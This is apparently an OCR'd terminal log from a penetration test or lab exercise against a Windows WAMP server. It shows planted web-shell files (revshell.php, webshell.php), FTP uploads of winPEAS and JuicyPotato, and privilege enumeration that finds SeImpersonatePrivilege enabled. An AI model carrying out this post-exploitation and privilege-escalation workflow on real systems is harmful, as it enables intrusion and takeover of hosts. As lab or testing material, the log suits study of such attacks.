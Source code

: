  Directory of C:\wamp\www

10/20/2025  10:11 AM    <DIR>          .
10/20/2025  10:11 AM    <DIR>          ..
11/08/2011  08:58 AM               161 .htaccess
11/08/2011  08:53 AM                45 .htpasswd
11/08/2011  08:45 AM                76 index.php
10/20/2025  10:05 AM             9,289 revshell.php
10/20/2025  10:03 AM             2,589 shell.php
10/20/2025  09:58 AM               348 webshell.php
10/20/2025  10:11 AM        10,171,904 winPEASany.exe
               7 File(s)     10,184,412 bytes
               2 Dir(s)   6,021,586,944 bytes free

C:\wamp\www>.\winPEASany.exe --help

C:\wamp\www>cmd.exe
Microsoft Windows [Version 6.0.6001]
Copyright (c) 2006 Microsoft Corporation.  All rights reserved.

C:\wamp\www>.\winPEASany.exe --help

C:\wamp\www>.\winPEASany.exe -h

C:\wamp\www>winPEASany.exe -h

C:\wamp\www>.\winPEASany.exe

ftp> put winPEAS.bat 
local: winPEAS.bat remote: winPEAS.bat
229 Entering Extended Passive Mode (|||2129|)
150 File status okay; about to open data connection.
100% |***********************************************************************************************************************************************************************************************| 36950      416.51 KiB/s    00:00 ETA
226 Closing data connection.
36950 bytes sent in 00:00 (282.31 KiB/s)

C:\wamp\www>.\winPEAS.bat

PRIVILEGES INFORMATION                                                                                                                                                                     
----------------------                                                                                                                                                                                                                      
                                                                                                                                                                                                                                            
Privilege Name                Description                               State                                                                                                                                                               
============================= ========================================= ========                                                                                                                                                            
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled                                                                                                                                                             
SeImpersonatePrivilege        Impersonate a client after authentication Enabled                                                                                                                                                             
SeCreateGlobalPrivilege       Create global objects                     Enabled                                                                                                                                                             
SeIncreaseWorkingSetPrivilege Increase a process working set           No User exists for *                                                                                                                                                 
 Disabled

ftp> put JuicyPotato.exe 
local: JuicyPotato.exe remote: JuicyPotato.exe
229 Entering Extended Passive Mode (|||2134|)
150 File status okay; about to open data connection.
100% |***********************************************************************************************************************************************************************************************|   339 KiB    1.29 MiB/s    00:00 ETA
226 Closing data connection.
347648 bytes sent in 00:00 (1.12 MiB/s)
